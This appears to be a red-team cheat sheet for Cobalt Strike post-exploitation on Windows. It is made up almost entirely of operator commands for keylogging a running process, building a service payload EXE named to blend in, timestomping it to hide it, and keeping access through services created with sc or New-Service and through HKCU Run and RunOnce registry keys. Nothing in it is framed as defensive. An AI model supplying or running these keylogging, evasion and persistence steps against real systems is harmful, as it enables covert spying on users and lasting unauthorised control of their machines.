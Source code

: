 
## Keylogging - using CobaltStrike
````
## Explore.exe is a Good Process to Keylog ##
keylogging x64 <PID>
````
## EXE CREATION
````
1. Attack-> Packages -> Windows Executable (S)
2. Choose Listener (Workstation HTTP/S and Server SMB)
3. Output Windows Service EXE

Only choose x64 payload if you know the Arch of your target machine
4.Check x64 payload

5. Generate
6. Save (ensure the file name will blend in with the environment)

````
## SERVICE PERSISTENCE 
````
1. upload 
2. choose executable
3. shell dir <name of exe>
4. timestomp <payload> kernel32.dll
````
### LOW TIER
````
shell sc create <Service Name> binpath= <Path> start= auto error= ignore
shell sc query <Service Name>
shell sc start <Service Name>
### The service may fail, but execution of payload may have occured
````
### HIGH TIER
````
powerpick New-Service -Name "<servicename>" -BinaryPathName "C:\temp\payload.exe" -Description “<any_discription>"  -StartupType Automatic

powerpick Start-Service -Name "<service name>"
````

## REGISTRY PERSISTENCE
### Repeat EXE CREATION and steps 1-4 but choose a dll options
````
### User Level
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v <name> /t REG_SZ /d " <path_to_executable> "
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v <name> /t REG_SZ /d " <path_to_executable> "
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v <name> /t REG_SZ /d "<path_to_executable>"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v <name> /t REG_SZ /d " <path_to_executable> "
````
